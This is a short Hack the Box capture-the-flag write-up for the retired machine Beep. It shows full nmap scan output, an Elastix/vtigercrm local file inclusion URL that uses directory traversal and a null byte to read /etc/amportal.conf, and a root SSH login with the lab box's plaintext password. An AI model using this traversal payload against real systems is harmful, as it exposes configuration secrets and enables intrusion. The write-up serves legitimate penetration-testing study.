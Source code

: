 ```yaml
---
layout: post
title: "beep"
categories: HTB
---
```

<hr>
### Introduction
This is my writeup of the retired machine Beep from Hack the Box.

<hr>
### Nmap scan
```
nmap -sV -sC -p- -oA allports_nmap_scan 10.10.10.7

Nmap scan report for 10.10.10.7
Host is up (0.014s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS USER AUTH-RESP-CODE EXPIRE(NEVER) TOP RESP-CODES PIPELINING APOP UIDL IMPLEMENTATION(Cyrus POP3 server v2) LOGIN-DELAY(0)
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: LITERAL+ CATENATE RIGHTS=kxte UNSELECT SORT QUOTA STARTTLS LISTEXT X-NETSCAPE OK IMAP4rev1 IMAP4 NAMESPACE NO SORT=MODSEQ LIST-SUBSCRIBED UIDPLUS URLAUTHA0001 CONDSTORE IDLE THREAD=REFERENCES RENAME ACL ANNOTATEMORE Completed ID BINARY MULTIAPPEND THREAD=ORDEREDSUBJECT CHILDREN ATOMIC MAILBOX-REFERRALS
443/tcp   open  ssl/https?
|_ssl-date: 2020-07-18T05:31:35+00:00; -10s from scanner time.
879/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: -10s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 18 15:34:20 2020 -- 1 IP address (1 host up) scanned in 364.86 seconds
```

http is open on port on 80 let's have a look.

<hr>

### Web Enumeration

Browsing to port 80 redirects to port 443

Elastix is running

Elastix is vulnerable to LFI (view source to make it readable)
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

![](\images\htb\beep\1.png)<br><br>




### Root

Always try the simplest things first it could be a quick win
    ```
    ssh root@10.10.10.7
    password: jEhdIekWmdjE
    ```
![](\images\htb\beep\2.png)<br><br>
